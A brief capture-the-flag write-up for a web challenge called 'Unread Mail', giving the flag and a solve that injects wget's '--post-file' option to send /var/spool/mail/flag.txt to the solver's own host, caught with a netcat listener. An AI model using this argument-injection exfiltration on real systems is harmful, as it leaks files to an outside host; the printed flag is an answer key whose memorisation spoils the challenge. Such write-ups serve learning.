 # Unread Mail
Difficulty: **Easy**
Category: **Web**

## Description:
```
Sarpeliiii.....in flag.txt

Autor: SOC
```

## Flag: FIICODE25{t00l_f4n_f0r_l1f3}

## Solve:

```json
{
  "parameters": [
 "--post-file=/var/spool/mail/flag.txt",
"http://$your_host/"]
}
```

and a nc instance on your pc
